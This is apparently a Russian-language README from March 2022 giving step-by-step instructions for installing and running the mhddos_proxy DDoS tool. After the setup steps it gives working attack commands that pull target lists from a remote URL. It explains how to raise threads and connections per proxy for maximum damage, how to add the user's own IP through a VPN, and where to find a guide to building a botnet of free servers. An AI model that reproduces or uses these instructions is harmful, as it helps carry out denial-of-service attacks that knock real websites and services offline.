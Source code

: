 <h1 align="center">Установка mhddos_p напрямую на ваш комп</h1> 
March 28, 2022

<br/>
<br/>

ТЕСТОВИЛ ТОЛЬКО НА WINDOWS 10

🟢Пошаговые инструкции по установке mhddos_proxy на любую ОС 🟢
Windows / Linux / Mac / Android:  [ссылка](https://github.com/BionecX/mhddos_p/blob/main/docs/installation.md)

то есть Docker, который, по сути, является целой виртуальной машиной и жрет много ресурсов, не нужен вообще - 🔺 замена на python скрипт поможет снизить нагрузку на ваш процессор в 2-3 раза 

❗️Помощь(бесплатно) в поиске прокси для mhddos_p , НОВЫЙ МЕТОД ДЛЯ ВСЕХ ОС: https://github.com/BionecX/proxy_finder


❗️Авто-скрипт, который сам устанавливает все нужные файлы и запускает mhddos_proxy и proxy_finder в одном скрипте, и автоматически обновляет их: https://github.com/alexnest-ru/runner_for_windows


Анализ средства mhddos_p (что он выводит, и все его преимущества):
README_analiz_sredstva_mhddos_h.md


❗️Создание ботнета из 30+ бесплатных и автономных (работают даже при выключенном ПК) Linux-серверов: [ссылка](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5ccc)



Прежде всего, нужно установить Python3 (чтобы запускать сам скрипт) и Git (чтобы скачать все зависимости (requirements))

!!!ВСЕ ПУНКТЫ ОБЯЗАТЕЛЬНЫЕ!!!


Весь код программы открыт здесь:
https://github.com/BionecX/mhddos_p


1.Установка Python3:

Способ 1 (очень простой):

Заходим в cmd (командная строка)
Командная строка

-> Прописываем python3

 -> нажимаем Enter
Если у вас до сих пор нет python3, то Вас перекинет в Microsoft store, там нажимаете Получить/Получить/Get

Если он у вас уже есть, то будет вот так:

После получения python3 закрывает это окно терминала (команды срока)

Если через cmd (командую строку) не получилось, или у вас Python ниже 3.10 (проверить можно так python --version) – попробуйте зайти самостоятельно в Microsoft Store и найти и установить там Python3.10


!!!ТОЛЬКО ЕСЛИ С ПРЕДВАРИТЕЛЬНЫМ СПОСОБОМ НЕ ПОЛУЧИЛОСЬ:!!!
Способ 2: скачиваем python: https://www.python.org
Кликаете именно в таком порядке

Запускаете скачанный файл
Именно в таком порядке 1-ый самый важный

Дальше все по умолчанию везде кликаете Далее / Да
2. Установка Git


Для начала нужно еще установить Notepad++ (удобный редактор кода, он сгодится и после нашей победы в войне):

https://notepad-plus-plus.org/downloads/v8.2.1/ 

Когда скачали, запустили установщик и установили Notepad++ переходим к следующим пунктам


Скачиваем установщик git`a https://gitforwindows.org (эта самая ссылка на оф. сайте github`a: https://github.com/git-guides/install-git#install-git-on-windows)


Ждем пока скачается, затем запускаем скачанный файл


УСТАНОВИВАТЬ НАДО САМЕ ТАК:
Из списка выбрать именно Notepad++ (который вы должны скачать раньше, если нет, то закрывайте и скачивайте, затем открывайте Setup файл еще раз)
Готово
3. Устанавливаем сам скрипт mhddos_p

Открываем Мой компьютер

Ищем папку рабочего стола:

Заходим в папку Рабочего стола:

Но в выделенной области прописываем три буквы cmd:

И нажимаем Enter – откроется окно Терминала:

Далее прописываем следующую команду:

    git clone https://BionecX/mhddos_p

и нажимаем Enter

    ddos_proxy' already exists and is not empty directory. - это значит, что нужная папка уже существует - просто следуйте инструкциям в пункт 4. Запуск атаки

Произошла загрузка нужной программы
Тем нужно зайти в папку с этой программой.

    cd mhddos_p

и сразу скачиваем необходимые зависимости:

    python -m pip install -r requirements.txt

Финально должно получиться вот так:

Теперь мы можем запускать атаки:
4. Запуск атаки

После всех предыдущих пунктов в дальнейшем вам нужно будет ВЫПОЛНЯТЬ ТОЛЬКО ЭТОТ ПУНКТ:


Находим папку из mhddos_proxy на Рабочем столе:

Открываем ее и чтобы зайти в Терминал из этой папки, в поле прописываем cmd и нажимаем Enter:


В открывшемся терминале водим следующие команды:

    cd mhddos_p
    git pull origin main

Если у вас все установлена ​​последняя версия будет вот такое сообщение:

Если нет, то установит последнюю версию:

Теперь нужно установить еще раз зависимости (а вдруг они тоже обновились):

    python -m pip install -r requirements.txt


❗️Нужно установить супер-быстрый и стабильный VPN, чтобы ваш провайдер не резал трафик из-за подключения ко многим IP(прокси):
https://auto-ddos.notion.site/VPN-effde85923534cf7b4caa198a0ef0d23

Если вы будете без ВПН, то у вас вообще может попасть интернет на роутере, как было у меня, потому что провайдеры не любят когда из их IP идет трафик на большое количество других IP(прокси)

Другие ВПН тоже могут не подойти, потому что они могут отключаться

Наконец-то мы можем запускать атаку:

Для атаки вводим следующую команду, НАПРИМЕР:

    python runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug

Поздравляю, атака запустилась:
нули это нормально, особенно в начале атаки, пока скрипт "разгоняется"


Чтобы остановить атату: в открывшемся окне с атакой нажимаете Ctrl+C (или можно просто нажать на крестик и закрыть окно)


❗️Чтобы добавить ваш текущий IP (или IP подключенного VPN) к атаке вместе с прокси в конец команды приписывайте --vpn. (более подробно об этом: Для увеличения мощности атаки за счет вашего IP - добавьте в конец команды флажок --vpn, чтобы добавить ваш IP к атаке вместе с прокси (желательно использовать стабильный и быстрый VPN (https://auto-ddos.notion.site/VPN-effde85923534cf7b4caa198a0efffccc) ) (кроме Linux-серверов (https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5cccfff) – там менять ничего не надо))) 

Например: 

    python runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug --vpn


5. Шаблон команды для собственных атак:


    python runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug

python runner.py <Цели-сайты> --http-methods <Методы> -t <Потоки> --rpc <Подключение> --debug

    python3 - оболочка/приложение, которая будет читать и выполнять код программ runner.py
    runner.py – сам скрипт атаки
    Цели-сайты - Цели при проведении атаки на одном уровне и с использованием одного метода атаки, указанного в --http-methods, можно перечислять через пробел, а можно указать как удаленный конфиг через -c URL (где каждая цель должна быть из новой строки ). В этом случае количество целей будет разделено на каждый метод равномерно от того количества, которое вы указали.
    Можно указывать в одной команде любые типы портов, например: http://, https://, tcp://, udp:// – все они будут разбиты на нужные методы, для http и https будут браться методы из перечня --http-methods , а для tcp и udp всегда используются методы TCP и UDP соответственно
    Методы - Со всеми методами можно ознакомиться на самом гитхабе
    ( https://github.com/MHProDev/MHDDoS#features-and-methods ). Все команды, которые мы готовим в нашем канале – мы готовим уже с необходимыми для атаки методами. На одном уровне атаки методы можно перечислять через пропуск. Самые распространенные методы:
    --http-methods GET STRESS
    Потоки – это количество "вредных" пакетов/запросов в количестве t* количество_ядер, отправляемых на цель. Здесь можно выкручивать по максимуму на столько, на сколько тянет ваш ПК (мониторите нагрузку в диспетчере задач, смотрим на ЦПУ и ОЗУ, в Kali Linux это зеленый и синий график соответственно). Будьте внимательны, в начале атаки нагрузка может быть минимальной, а спустя некоторое время зашкаливать. Учитывайте, что при увеличении пакетов/угрозов количество прокси-серверов может снизиться. По умолчанию 1000, по желанию – сколько влезет в вашу машину (но желательно не больше 10000). В этой команде: -t 5000
   Подключение – здесь указываем предполагаемое количество подключений одного прокси-сервера. Оптимально указывать от 1000 до 2000. Предположим, что у вас 1000 прокси-серверов, при указании подключений в количестве 1000, вы отправите 1 000 000 пакетов на вашу цель (в идеале, но определенный процент пакетов скорее всего может потеряться). Теперь оптимальное значение:
    --rpc 2000
    Также если вы подключены к VPN России можно добавить параметр --vpn , с помощью которого атака будет происходить через прокси и вместе с вашим IP (желательно, чтобы это был IP VPN)
    Например:
    python3 runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug --vpn



